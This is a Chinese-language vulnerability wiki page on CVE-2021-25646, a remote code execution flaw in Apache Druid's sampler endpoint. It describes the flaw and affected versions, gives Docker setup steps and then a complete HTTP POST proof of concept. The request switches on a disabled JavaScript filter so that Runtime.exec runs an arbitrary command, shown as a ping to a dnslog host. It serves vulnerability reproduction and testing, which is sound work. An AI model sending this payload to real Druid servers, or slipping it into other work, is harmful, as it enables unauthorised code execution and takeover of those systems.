 ```yaml
---
title: Apache Druid sampler 远程代码执行漏洞 CVE-2021-25646
---
```


# Apache Druid sampler 远程代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码

## 漏洞影响

<a-checkbox checked>Apache Druid < 0.20.1</a-checkbox></br>

## 环境搭建

这里使用Docker来搭建环境

<a-alert type="success" message="Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip" description="" showIcon>
</a-alert>

<br/>

下载之后进入目录 `distribution\docker`

执行命令编译 `docker-compose up -d`

![2ff63956-f284-448b-aa1f-ad388b2c1be2](/assets/PeiQi-Wiki/img/2ff63956-f284-448b-aa1f-ad388b2c1be2.png)



## 漏洞复现

验证POC

```shell
POST /druid/indexer/v1/sampler
Content-Type: application/json

{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping p3fpw5.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![76ab3573-05f8-4abe-b4ea-cd4d400689ee](/assets/PeiQi-Wiki/img/76ab3573-05f8-4abe-b4ea-cd4d400689ee.png)

<br/>

<a-alert type="success" message="注意请求中这个位置改为你的dnslog平台地址" description="" showIcon>
</a-alert>

<br/>

<a-alert type="success" message="java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')" description="" showIcon>
</a-alert>

<br/>